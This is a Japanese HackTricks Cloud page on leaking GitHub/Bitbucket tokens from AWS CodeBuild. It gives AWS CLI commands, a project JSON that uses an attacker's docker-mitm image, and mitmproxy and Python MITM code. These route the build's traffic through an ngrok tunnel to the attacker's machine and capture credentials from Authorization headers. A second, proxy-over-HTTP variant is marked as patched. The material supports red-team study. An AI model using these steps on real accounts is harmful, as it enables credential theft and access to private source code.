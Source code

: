 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Github/Bitbucketに設定されたトークンの回復

まず、漏洩できるソース認証情報が設定されているか確認してください:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

もし、例えばGithubへの認証がアカウントに設定されていることがわかった場合、Codebuildに**特定のDockerイメージ**を使用させてプロジェクトのビルドを実行させることで、その**アクセス**（**GHトークンまたはOAuthトークン**）を**抽出**することができます。

この目的のために、**新しいCodebuildプロジェクトを作成**するか、既存のものの**環境**を変更して**Dockerイメージ**を設定することができます。

使用できるDockerイメージは[https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)です。これは、**env変数`https_proxy`**、**`http_proxy`**、および**`SSL_CERT_FILE`**を設定する非常に基本的なDockerイメージです。これにより、**`https_proxy`**および**`http_proxy`**に指定されたホストのほとんどのトラフィックを傍受し、**`SSL_CERT_FILE`**に指定されたSSL証明書を信頼することができます。

1. **自分のDocker MitMイメージを作成してアップロード**
* リポジトリの指示に従って、プロキシIPアドレスを設定し、SSL証明書を設定して**Dockerイメージをビルド**します。
* メタデータエンドポイントへのリクエストを傍受しないように、**`http_proxy`を設定しないでください**。
* **`ngrok`**を使用して、`ngrok tcp 4444`のようにプロキシをホストに設定できます。
* Dockerイメージがビルドされたら、**パブリックリポジトリにアップロード**します（Dockerhub、ECR...）。
2. **環境を設定**
* **新しいCodebuildプロジェクトを作成**するか、既存のものの環境を**変更**します。
* プロジェクトを**以前に生成したDockerイメージ**を使用するように設定します。

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **ホストにMitMプロキシを設定**

* **Githubリポジトリ**に示されているように、次のようなものを使用できます：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
使用された**mitmproxyのバージョンは9.0.1**であり、バージョン10ではこれが機能しない可能性が報告されています。
{% endhint %}

4. **ビルドを実行し、資格情報をキャプチャする**

*   **Authorization**ヘッダーにトークンが表示されます：

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

これは、aws cliを使用して次のように実行することもできます

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTPプロトコル経由~~

{% hint style="success" %}
**この脆弱性は2023年2月20日の週のある時点でAWSによって修正されました（おそらく金曜日）。したがって、攻撃者はもはやこれを悪用できません :)**
{% endhint %}

**CodeBuildでの権限が昇格された攻撃者は、設定されたGithub/Bitbucketトークンを漏洩させることができる**か、またはOAuth経由で権限が設定されている場合、**コードにアクセスするために使用される一時的なOAuthトークンを漏洩させることができる**。

* 攻撃者は、**http\_proxy**および**https\_proxy**という環境変数をCodeBuildプロジェクトに追加し、自分のマシンを指すことができます（例えば`http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 次に、githubリポジトリのURLをHTTPSの代わりにHTTPを使用するように変更します。例えば：\*\*http://\*\*github.com/carlospolop-forks/TestActions
* その後、プロキシ変数（http\_proxyおよびhttps\_proxy）が指すポートで[https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)の基本的な例を実行します。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最後に、**プロジェクトをビルド**をクリックすると、**資格情報**が**平文**（base64）でmitmポートに**送信されます**：

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
今、攻撃者は自分のマシンからトークンを使用し、持っているすべての権限をリストし、CodeBuildサービスを直接使用するよりも簡単に（悪用）できます。
{% endhint %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
